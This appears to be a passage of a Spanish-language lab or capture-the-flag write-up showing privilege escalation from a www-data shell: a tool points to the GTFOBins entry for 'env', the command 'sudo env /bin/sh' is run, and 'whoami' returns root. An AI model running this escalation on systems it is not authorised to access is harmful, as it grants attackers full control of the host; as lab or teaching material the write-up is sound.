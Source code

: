 **Salida:**
```python

[+] Binary: env

================================================================================
[*] Function: sudo -> [https://gtfobins.github.io/gtfobins/env/#sudo]

        | sudo env /bin/sh
```

#### Ejecución de la Escalada de Privilegios

```python
www-data@c925d2eea10b:/var/www/html/uploads$ sudo env /bin/sh
```

Este comando utiliza `env` con privilegios de superusuario para ejecutar un shell con permisos de root.

**Comprobación:**
```python
sudo env /bin/sh
whoami
root
```


